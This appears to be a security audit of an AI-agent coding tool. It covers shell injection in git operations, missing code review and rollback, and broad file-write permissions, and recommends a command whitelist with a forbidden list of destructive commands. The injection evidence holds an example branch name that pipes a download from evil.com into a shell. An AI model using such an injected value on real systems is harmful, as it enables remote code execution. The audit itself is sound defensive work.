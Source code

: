#### ⚠️ **HIGH: Shell Injection in Git Operations**
- **Severity**: HIGH
- **CVE Reference**: CWE-78 (OS Command Injection)
- **Description**: Git tool uses subprocess without input sanitization
- **Impact**: Command injection via branch names, commit messages
- **Evidence**:
  ```python
  # git.py - Branch name not sanitized
  subprocess.run(
      ['git', 'checkout', '-b', branch_name, from_branch],
      # If branch_name = "test; curl evil.com | sh"
  )
  ```
- **Mitigation**: While subprocess with list args prevents some injection, branch names should still be validated

#### ⚠️ **MEDIUM: No Code Review Before Execution**
- **Severity**: MEDIUM
- **Description**: Agent-generated code not reviewed before git commit
- **Impact**: Malicious code merged into repository
- **Recommendation**: Implement pre-commit hooks and code scanning

#### ⚠️ **MEDIUM: No Rollback Mechanism**
- **Severity**: MEDIUM
- **Description**: No automated rollback if agent code causes errors
- **Impact**: Breaking changes could persist without easy recovery
- **Recommendation**: Implement checkpoint system with automatic rollback

#### ⚠️ **LOW: File Write Permissions**
- **Severity**: LOW
- **Description**: Agents can write to any file in project
- **Impact**: Could overwrite critical config files
- **Recommendation**: Protect sensitive files (`.env`, `config.json`)

### Recommendations

#### Phase 1: Critical Fixes

1. **Implement Command Whitelisting** (Priority: CRITICAL)
   ```python
   # Add to config.json
   "security": {
       "allowed_commands": ["git", "gh", "make", "docker", "npm", "pytest"],
       "allowed_git_operations": ["status", "log", "diff", "branch", "checkout"],
       "forbidden_operations": ["rm", "dd", "mkfs", "sudo"]
   }

   # Validate in git.py
   def validate_command(cmd: list) -> bool:
       config = load_config()
       base_cmd = cmd[0]
       if base_cmd not in config['security']['allowed_commands']:
           raise ValueError(f"Command {base_cmd} not allowed")
       return True
   ```
